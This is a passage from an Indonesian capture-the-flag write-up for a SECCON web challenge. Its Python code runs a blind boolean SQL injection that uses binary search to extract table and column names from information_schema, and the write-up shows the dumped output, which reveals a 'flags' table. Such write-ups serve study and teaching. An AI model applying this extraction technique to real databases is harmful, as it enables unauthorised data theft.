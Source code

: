 ```python
    r = sess.get("http://staging.shooter.pwn.seccon.jp/admin/users", allow_redirects=False)
    return r.status_code == 200

def dump_tables():
    tables = ""
    while 1:
        lo = 0
        hi = 255
        while lo <= hi:
            mid = (lo+hi)//2
            s = "select ascii(substr((select group_concat(table_name) from information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'),{},1)) > {}"
            s = s.format(len(tables)+1,mid)
            if check(s):
                lo = mid+1
            else:
                hi = mid-1
        if lo == 0:
            return tables
        tables += chr(lo)
        print(tables)

dump_tables()
```

Kami mendapatkan output ini.
```
a
ar
ar_
ar_i
...
ar_internal_metadata,flags,managers,schema_migrations,score
ar_internal_metadata,flags,managers,schema_migrations,scores
```

Tabel `flags` terlihat menarik. Kemudian kami melakukan dump kolom untuk tabel tersebut.

```python
...
def dump_columns(table_name):
    columns = ""
    while 1:
        lo = 0
        hi = 255
        while lo <= hi:
            mid = (lo+hi)//2
            s = "select ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = '{}'),{},1)) > {}"
            s = s.format(table_name, len(columns)+1, mid)
            if check(s):
                lo = mid+1
            else:
                hi = mid-1
        if lo == 0:
            return columns
        columns += chr(lo)
        print(columns)

dump_columns("flags")
```
